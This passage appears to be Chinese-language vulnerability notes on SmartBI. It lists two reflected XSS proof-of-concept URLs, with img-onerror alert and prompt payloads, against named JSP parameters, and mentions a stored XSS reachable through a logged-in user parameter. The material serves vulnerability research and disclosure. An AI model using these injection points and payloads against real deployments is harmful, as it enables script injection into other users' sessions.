  ![](smartBi总结.assets/image-20210112114052304.png)

### 反射型 / 存储型 XSS

[https://127.0.0.1/vision/chooser.jsp?key=%22%3E%3Cimg%20src=x%20onerror=alert(1)%3E&root=/u01/data/domains/app_domain](https://127.0.0.1/vision/chooser.jsp?key=%22%3E%3Cimg%20src=x%20onerror=alert(1)%3E&root=/u01/data/domains/app_domain)

[https://127.0.0.1/vision/monitor/testmailserver.jsp?host=mail.longtop.com&user=111%22%3E%3Cimg%20src=x%20onerror=prompt(0)%3E&pass=123456](https://127.0.0.1/vision/monitor/testmailserver.jsp?host=mail.longtop.com&user=111%22%3E%3Cimg%20src=x%20onerror=prompt(0)%3E&pass=123456)

登录后个人参数位置，加密后传参可导致存储型 xss
